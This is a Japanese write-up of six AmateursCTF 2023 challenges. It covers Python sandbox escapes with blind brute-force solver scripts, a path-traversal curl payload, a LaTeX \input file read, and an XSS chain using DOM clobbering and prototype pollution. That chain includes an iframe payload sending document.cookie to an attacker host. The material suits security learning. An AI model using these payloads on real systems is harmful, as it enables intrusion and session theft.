








# AmateursCTF 2023 Writeup

AmateursCTF 2023（<https://ctftime.org/event/1983>）に参加しました。  
2023/07/15(土) 10:00 — 2023/07/20(木) 09:59 ※途中で12時間延長  
期間が長めのCTFで、最初の48時間は12時間ごとに新しい問題が追加されてました。  

OnePaddingというチームで参加して、順位は一問以上解答した709チーム中16位でした。


miscとwebの問題を6問解きました。

- [misc/Censorship](#misccensorship)
- [misc/Censorship Lite](#misccensorship-lite)
- [misc/Censorship Lite++](#misccensorship-lite-1)
- [web/funny factorials](#webfunny-factorials)
- [web/latek](#weblatek)
- [web/sanity](#websanity)

## misc/Censorship



特定の文字が使えない状態でPythonのexecを実行する問題です。

```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if "flag" in code or "e" in code or "t" in code or "\\" in code:
                raise ValueError("invalid input")
            exec(eval(code))
        except Exception as err:
            print(err)
```

最初に以下が書かれているため、`print(_)`が実行できればflagが出力できます。

```py
for _ in [flag]:
```

一番手っ取り早そうなのは、Exceptionを発生させて`print(err)`を実行させることかなと思いました。

```py
>>> _="flag"
>>> int(_)
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
ValueError: invalid literal for int() with base 10: 'flag'
```

が、`int(_)`のようにExceptionのエラーメッセージに変数の値が出力させる方法では、`e`や`t`が邪魔をして実行できませんでした。`float(_)`とかも。  
`\x`形式は`\`が`\\`になるためダメ。

```py
>>> code = ascii(input("Give code: "))
Give code: \x70\x72\x69\x6E\x74\x28\x5F\x29
>>> print(code)
'\\x70\\x72\\x69\\x6E\\x74\\x28\\x5F\\x29'
```

入力値を`ascii()`に入れているため、以下のようにしても文字列になるだけ。

```py
(lambda:chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(95)+chr(41))()
```

仕方ないので、エラーベースで総当たりする方法を試しました。  
以下のように書くと、`ord(_[0])==97`がTrueのときにはTypeErrorが発生します。  
Falseのときには何も起きないので、レスポンスのメッセージからフラグの判別が可能になります。

```py
>>> _="ama"
>>> ord(_[0])==97 and chr('a')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
TypeError: an integer is required (got type str)
>>>
>>> ord(_[0])==98 and chr('a')
False
```

時間かかるとサーバから切断されるので、2分探索をしています。  
開催中は面倒だったので線形探索で時間かけてやりました。

- solver.py

```py:solver.py
#!/usr/local/bin/python
from pwn import *

# KEYS = list(" .:,~^)(=-_&@#!'\"$%?}{abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWZ")
io = remote("amt.rs", 31670)
io.recvuntil(b"Give code: ")

def is_left(n: int, min: int, mid: int) -> bool:
  payload = f"{min}<=ord(_[{n}]) and ord(_[{n}])<{mid} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def is_right(n: int, mid: int, max: int) -> bool:
  payload = f"{mid}<ord(_[{n}]) and ord(_[{n}])<={max} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def is_mid(n: int, mid: int) -> bool:
  payload = f"ord(_[{n}])=={mid} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def b_search(n: int, min: int, max: int) -> int:
  left = min
  right = max
  while left <= right:
      mid = (left + right) // 2
      if is_left(n, min, mid):
          right = mid - 1
          continue
      if is_right(n, mid, max):
          left = mid + 1
          continue
      if is_mid(n, mid):
         return mid
      return -1
  return -1

flag = ""
for i in range(0, 100):
  print(f"i={i}")
  result = b_search(i, 32, 126)
  if result == -1:
     break
  flag += chr(result)
  print(flag)

print(f"flag: {''.join(flag)}")
```

```sh
＄python solver.py
[+] Opening connection to amt.rs on port 31670: Done
i=0
a
i=1
am
i=2
ama
<SNIP>
amateursCTF{i_l0v3_overwr1t1nG_functions..:
i=43
amateursCTF{i_l0v3_overwr1t1nG_functions..:D
i=44
amateursCTF{i_l0v3_overwr1t1nG_functions..:D}
i=45
flag: amateursCTF{i_l0v3_overwr1t1nG_functions..:D}
[*] Closed connection to amt.rs port 3167
```

フラグを見る限り、非想定解のようです。

### 別解:misc/Censorship

他の人のWriteupを見る限り、いろいろ解き方があるみたいです。

- locals関数で、ローカル変数の中身を出力する。

```sh
$ nc amt.rs 31670
Give code: locals()[_]
'amateursCTF{i_l0v3_overwr1t1nG_functions..:D}'
```

- 関数の上書き
  - ascii関数を上書きして、chrで書いた文字列を実行させる。

```sh
$ nc amt.rs 31670
Give code: ascii = lambda x: x;
Give code: (lambda:chr(112)+chr(114)+chr(105)+chr(110)+chr(116)+chr(40)+chr(95)+chr(41))()
amateursCTF{i_l0v3_overwr1t1nG_functions..:D}
```

## misc/Censorship Lite



Censorshipの続編で、さらに使える文字が少なくなります。

```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "\lite0123456789"]):
                raise ValueError("invalid input")
            exec(eval(code))
        except Exception as err:
            print(err)
```

直接数値は使えませんが、`ord`関数を使うことで回避可能でした。  
`True`や`False`は`e`が制限されているため、使えませんでした。

```py
>>> ord('k')-ord('a')
10
>>> ord('b')-ord('a')
1
>>> ord('a')-ord('a')
0
```

```py
# 例：ord(_[0])==97 and chr('a')
a=ord('b')-ord('a');b=ord('k')-ord('a');c=b*b;d=a-a;ord(_[d])==b+b+b+b+b+b+b+b+b+a+a+a+a+a+a+a+d and chr('a')
```

後は、Censorshipのスクリプトにmake_n関数を追加して数値と置き換えることで解けました。  
文字列を短くするために、よく使いそうな数値をBASEにまとめています。

- solver.py

```py:solver.py
#!/usr/local/bin/python
from pwn import *

# KEYS = list(" .:,~^)(=-_&@#!'\"$%?}{abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWZ")
io = remote("amt.rs", 31670)
io.recvuntil(b"Give code: ")

def is_left(n: int, min: int, mid: int) -> bool:
  payload = f"{min}<=ord(_[{n}]) and ord(_[{n}])<{mid} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def is_right(n: int, mid: int, max: int) -> bool:
  payload = f"{mid}<ord(_[{n}]) and ord(_[{n}])<={max} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def is_mid(n: int, mid: int) -> bool:
  payload = f"ord(_[{n}])=={mid} and chr('a')".encode()
  io.sendline(payload)
  message = io.recvuntil(b"Give code: ").decode()
  return "cannot" in message

def b_search(n: int, min: int, max: int) -> int:
  left = min
  right = max
  while left <= right:
      mid = (left + right) // 2
      if is_left(n, min, mid):
          right = mid - 1
          continue
      if is_right(n, mid, max):
          left = mid + 1
          continue
      if is_mid(n, mid):
         return mid
      return -1
  return -1

flag = ""
for i in range(0, 61):
  print(f"i={i}")
  result = b_search(i, 32, 126)
  if result == -1:
     break
  flag += chr(result)
  print(flag)

print(f"flag: {flag}")
```

```sh
$ python solver.py
[+] Opening connection to amt.rs on port 31671: Done
i=0
a
i=1
am
<SNIP>
i=54
amateursCTF{sh0uld'v3_r3strict3D_p4r3nTh3ticaLs_1nst3aD
i=55
amateursCTF{sh0uld'v3_r3strict3D_p4r3nTh3ticaLs_1nst3aD}
i=56
flag: amateursCTF{sh0uld'v3_r3strict3D_p4r3nTh3ticaLs_1nst3aD}
[*] Closed connection to amt.rs port 31671
```

これも想定解では無いのかもしれないです。

## misc/Censorship Lite++



Censorship Liteの続編で、さらに使える文字が少なくなります。  
Exceptionが発生した際のエラーメッセージが`zzzzzzzzzzzzz...`の固定文字列に変わっています。

```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "lite0123456789 :< :( ): :{ }: :*\ ,-."]):
                print("invalid input")
                continue
            exec(eval(code))
        except Exception as err:
            print("zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz")
```

カッコとかが使えなくなっているのが厄介でした。  
ただし、`>'+;!~][}{`の記号は使える状態なので、以下のようにすることで数値を表現できました。

```py
>>> _a='a'>'b'
>>> a='b'>'a'
>>> _a
False
>>> _a+a
1
>>> a+a
2
>>> b'a'[_a]
97
>>> b'a'[_a]+a+a+a
100
```

問題は、`l`,`i`,`t`,`e`ですが、以下のように文字比較を使うことで対応。  
`chr('a')`の代わりに`~zz`を使ってExceptionを発生させてます。

- d < e < f
- h < i < j
- k < l < m
- s < t < u

```py
>>> z='a';z>'d'and'f'>z[0]and~zz
False
>>> 
>>> z='e';z>'d'and'f'>z[0]and~zz
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name 'zz' is not defined
```

以下コード。

- solver.py

```py:solver.py
#!/usr/local/bin/python
from pwn import *

# "lite以外"
KEYS = list("_abcdfghjkmnopqrsuvwxyzABCDEFGHIJKLMNOPQRSTUVWZ")
BASE = "_a='a'>'b';a='b'>'a';b=a+a;c=b+b;d=c+c;x=d+b;y=b'a'[_a]+a+a+a;"

io = remote('amt.rs', 31672)
msg = io.recvuntil(b'Give code: ')

def calc(n: int) -> str:
  x100 = int(n / 100)
  x10 = int(n % 100 / 10)
  x = int(n % 100 % 10)
  return "+".join(["y"] * x100 + ["x"] * x10 + ["a"] * x)

def check(calced_i: str, l: str, r: str) -> bool:
  payload = f"{BASE}z=_[{calced_i}];z>'{l}'and'{r}'>z[_a]and~zz".encode()
  io.sendline(payload)
  message = io.recvuntil(b'Give code: ').decode()
  return "zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz" in message

flag = ""
# amateurCTF{は分かっているので13文字目から探索を開始する。
for i in range(12, 100):
  print(f'i={i}, flag={flag}')
  calced_i = calc(i)

  # e
  if check(calced_i, "d", "f"):
     flag += "e"
     continue

  # i
  if check(calced_i, "h", "j"):
     flag += "i"
     continue

  # l
  if check(calced_i, "k", "m"):
     flag += "l"
     continue

  # t
  if check(calced_i, "s", "u"):
     flag += "t"
     continue

  # 残り_abcdfghjkmnopqrsuvwxyzABCDEFGHIJKLMNOPQRSTUVWZ
  f = False
  for key in KEYS:
    payload = f"{BASE}_[{calced_i}]=='{key}'and~zz".encode()
    io.sendline(payload)
    message = io.recvuntil(b'Give code: ').decode()
    if "zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz" in message:
      flag += key
      f = True
      break
  if not f:
    break

prefix = "amateurCTF{"
suffix = "}"
print(f"flag: {prefix}{flag}{suffix}")
```

```sh
$ python solver.py
[+] Opening connection to amt.rs on port 31672: Done
i=12, flag=
i=13, flag=l
i=14, flag=le
<SNIP>
i=95, flag=le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_lev
i=96, flag=le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_leve
i=97, flag=le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_level
flag: amateurCTF{le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_level}
[*] Closed connection to amt.rs port 31672
```

## web/funny factorials



入力値の`../`を空文字に置換し続ける処理がありますが、置換回数がRecursionErrorが発生するまでとなっているため、パストラバーサルが可能です。  
設定値は`sys.setrecursionlimit(100)`となっています。

```py
def filter_path(path):
    # print(path)
    path = path.replace("../", "")
    try:
        return filter_path(path)
    except RecursionError:
        # remove root / from path if it exists
        if path[0] == "/":
            path = path[1:]
        print(path)
        return path

@app.route('/')
def index():
    safe_theme = filter_path(request.args.get("theme", "themes/theme1.css"))
    f = open(safe_theme, "r")
    theme = f.read()
    f.close()
    return render_template('index.html', css=theme)
```

後はエラーが出ないように調整して完了。

```sh
$ curl https://funny-factorials.amt.rs/?theme=..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/..................................................................................././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././/flag.txt
<!DOCTYPE html>
<html>
  <head>
    <title>Factorial Calculator</title>
    <!-- inline styles passed into the template -->
    <style>
        amateursCTF{h1tt1ng_th3_r3curs10n_l1mt_1s_1mp0ssibl3}
    </style>
  </head>
  <body>
<SNIP>
```

### 別解:web/funny factorials

他の人のWriteupを見る限り、`https://funny-factorials.amt.rs/?theme=//flag.txt`で良かったようです。

## web/latek



pdfTeXが使われており、入力値によってPDFが作成されます。



以下のように書くことで、`/flag.txt`を読み込むことができます。

```text
$ \input{/flag.txt} $
```



ところどころ小文字になっていますが、`A_i`のような添え字になっていると考えるとフラグに戻せました。  
文字列をそのまま出力する方法がありそうな気はします。

```text
amateursCTF{th3_l0w_budg3t_and_n0_1nstanc3ing_caus3d_us_t0_n0t_all0w_rc3_sadly}
```

## web/sanity



ユーザが投稿したページに対してサーバ側で動作するクローラにアクセスさせることができるようです。

- sanes.ejs

```ejs:sanes.ejs
<SNIP>
<body>
    <h1 id="title">
        <script>
            const sanitizer = new Sanitizer();
            document.getElementById("title").setHTML(decodeURIComponent(`<%- title %>`), { sanitizer });
        </script>
    </h1>
    <div id="paste">
        <script>
            class Debug {
                #sanitize;
                constructor(sanitize = true) {
                    this.#sanitize = sanitize
                }

                get sanitize() {
                    return this.#sanitize;
                }
            }

            async function loadBody() {
                let extension = null;
                if (window.debug?.extension) {
                    let res = await fetch(window.debug?.extension.toString());
                    extension = await res.json();
                }

                const debug = Object.assign(new Debug(true), extension ?? { report: true });
                let body = decodeURIComponent(`<%- body %>`);
                if (debug.report) {
                    const reportLink = document.createElement("a");
                    reportLink.innerHTML = `Report <%= id %>`;
                    reportLink.href = `report/<%= id %>`;
                    reportLink.style.marginTop = "1rem";
                    reportLink.style.display = "block"

                    document.body.appendChild(reportLink)
                }

                if (debug.sanitize) {
                    document.getElementById("paste").setHTML(body, { sanitizer })
                } else {
                    document.getElementById("paste").innerHTML = body
                }
            }

            loadBody();
<SNIP>
```

2箇所`<%- title %>`と`<%- body %>`があるため、XSSが可能そうですが、encodeURIComponentされた状態となるため、そのままでは無理そう。  
Sanitizer APIによって無効化されたHTML要素は生成できる。  
Sanitizer APIが回避できれば良かったですが、どうにかして`debug.sanitize`をfalseにする必要がありそうです。

```js
res.render("sanes", {
  id: req.params.sane,
  title: encodeURIComponent(sane.title),
  body: encodeURIComponent(sane.body),
});
```

よく見ると、以下の怪しい処理があります。  
`window.debug?.extension`がある場合は、そこに対してfetchを行い、その結果を`extention`に設定しています。

```js
let extension = null;
if (window.debug?.extension) {
    let res = await fetch(window.debug?.extension.toString());
    extension = await res.json();
}
```

また、設定された`extenstion`はその後の処理で使われており、ここにはPrototype Pollutionの脆弱性があります。

```js
const debug = Object.assign(new Debug(true), extension ?? { report: true });
```

整理すると、`window.debug?.extension`の値としてPrototype Pollutionの罠を置いたサイトのURLを設定できれば、`debug.sanitize`をfalseにできるようになります。

[Shisui - Fword CTF 2021 Writeup](https://blog.bi0s.in/2021/08/30/Web/Fword-CTF-2021-Shisui-Write-up/)を確認すると、どうやら同名のidで異なるname属性を持つ要素を生成することで、`window.<id>.<name>`としてアクセスできるようです。

つまり、`<a id=debug name=extension href="https://xxxx/" ><a id=debug name=x>`を生成することで、`window.debug?.extension.toString()`の結果を`https://xxxx/`にすることができます。

### 解法

1. Prototype Pollition用の罠サイトを立てる。

    - <https://trap.xxxx/>

    ```json
    {"__proto__":{"sanitize":false} }
    ```

    この時、CORSを許可する必要があります。

    - Access-Control-Allow-Origin: *
    - Access-Control-Allow-Methods: GET, POST
    - Access-Control-Allow-Headers: X-Requested-With

2. `title`及び`body`パラメータに以下を指定してページを生成する。

    - title

    ```text
    <a id="debug" name=extension href="https://trap.xxxx/" ><a id="debug" name=x>
    ```

    - body

    ```text
    <iframe src="javascript:fetch('https://trap.xxxx/?'+document.cookie)"></iframe>
    ```

3. クローラに生成したページをアクセスさせる。

4. フラグとなるcookie付きのリクエストが送られてくる。

```text
amateursCTF{s@nit1zar_ap1_pr3tty_go0d_but_not_p3rf3ct}
```

### 余談

Prototype Pollution用の罠サイトのURLが長くなると文字数制限でエラーとなるため、なかなか面倒でした。  
CORS制限がなければ、Pastebinで終わりだったような気がします。  
ngrokやAmazon API Gatewayのデフォルトドメインを使うとtitleが長くなりすぎてエラーとなったため、仕方なくさくらのレンタルサーバを使いました。  
こういう時ドメイン持ってると楽だなと思いました。
